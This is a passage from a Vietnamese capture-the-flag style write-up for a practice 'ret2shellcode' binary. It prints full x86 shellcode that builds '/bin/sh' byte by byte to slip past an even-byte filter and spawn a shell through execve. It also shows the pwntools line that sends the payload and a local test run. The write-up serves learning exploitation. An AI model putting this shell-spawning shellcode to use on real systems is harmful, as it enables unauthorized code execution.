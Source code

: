 ```
   inc edi
   nop
```
- Xong rồi đoạn cuối, ta thiết lập các tham số cho hàm execve như bình thường thôi vì các lệnh đã đảm bảo số chẵn lần byte
- **Như vậy ta có shellcode tổng thể:**
```
xor eax, eax
   push eax                         
   push eax               
   mov edi, esp 

   mov al, 0x2f                    
   add [edi], al                                              
   inc edi                          
   nop                              

   mov al, 0x62                     
   add [edi], al
   inc edi
   nop

   mov al, 0x69                    
   add [edi], al
   inc edi
   nop

   mov al, 0x6e                     
   add [edi], al
   inc edi
   nop

   mov al, 0x2f                     
   add [edi], al
   inc edi
   nop

   mov al, 0x73                     
   add [edi], al
   inc edi
   nop

   mov al, 0x68                     
   add [edi], al
   inc edi
   nop                      
                          
   mov ebx, esp
   xor ecx, ecx                      
   xor edx, edx 
   mov al, 0xb

   int 0x80
```
- Do trong hàm execve sẽ return đến con trỏ trỏ đến shellcode vừa filter và thực thi nó nên ta chỉ cần send nó thôi
```
p.sendafter(b"run:\n", shellcode)
```
- Cuối cùng ta sẽ gửi lên local để kiểm tra:
```sh
$ ./solve.py
[+] Starting local process '/mnt/d/Documents/ISP/PractiseTask1/ret2shellcode/fun': pid 558
[*] Switching to interactive mode
```